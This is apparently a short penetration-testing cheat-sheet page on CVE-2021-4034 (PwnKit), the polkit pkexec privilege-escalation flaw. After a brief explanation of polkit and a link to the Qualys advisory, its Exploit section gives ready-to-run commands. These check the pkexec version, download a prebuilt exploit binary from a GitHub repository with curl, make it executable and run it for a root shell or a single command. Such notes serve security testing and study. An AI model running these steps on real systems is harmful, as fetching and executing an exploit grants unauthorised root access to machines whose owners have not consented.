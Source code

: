 # \[CVE-2021-4034] - Pwnkit

## Brief

{% hint style="info" %}
Discovered in **January 2022**

**Polkit** can be used to determine whether you have the requisite **permissions** to **execute something**. It is integrated with systemd and is much more configurable than the traditional sudo system. Sometimes referred to as the "sudo of systemd", providing a granular system with which to assign permissions to users.
{% endhint %}

{% embed url="https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt" %}
More
{% endembed %}

## Exploit

```bash
# Check with :
pkexec --version
```

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit

# execute
./PwnKit # interactive shell
./PwnKit 'id' # single command
```
